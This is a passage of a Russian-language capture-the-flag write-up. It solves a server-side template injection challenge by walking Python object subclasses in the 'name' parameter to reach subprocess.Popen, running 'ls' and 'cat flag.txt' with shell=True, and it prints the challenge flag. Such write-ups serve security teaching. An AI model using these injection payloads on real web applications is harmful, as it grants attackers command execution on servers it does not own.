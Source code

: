 Как мы видим, результат вывелся по вышеописанному принципу. Далее обращаемся конкретно к классу object (его индекс в массиве равен 1) и смотрим его подклассы: **/?name={{'’.\_\_class\_\_.mro()[1].\_\_subclasses\_\_()}}**

![ScreenShot](screenshots/36.png)

Их выводится много, но нам нужен конкретный класс, способный выполнять новую программу. Класс Popen() модуля subprocess выполняет дочернюю программу в новом процессе. Через Ctrl + F ищем Popen:

![ScreenShot](screenshots/37.png)

Теперь нам нужно получить его индекс в выведенном массиве. Порой, это бывает непросто, но нам в данном случае повезло и индекс можно посчитать, начиная с конца массива.

Применяем индекс: 

**/?name={{'’.\_\_class\_\_.mro()[1].\_\_subclasses\_\_()[-22]}}**

![ScreenShot](screenshots/38.png)

Далее смотрим на готовые решения из PayloadsAllTheThings, модернизируем исполняемую команду:

**...\_\_subclasses\_\_()[-22]('ls',shell=True,stdout=-1).communicate()[0].strip()}}**

![ScreenShot](screenshots/39.png)

Меняем «ls» на «cat flag.txt»:

![ScreenShot](screenshots/40.png)

P.S. – это не единственное рабочее решение, как минимум, работает и второй payload, представленный на скриншоте из репозитория.

**Флаг**: AntiFlag{SSTI\_1s\_n0t\_th3\_l1m1t}

---
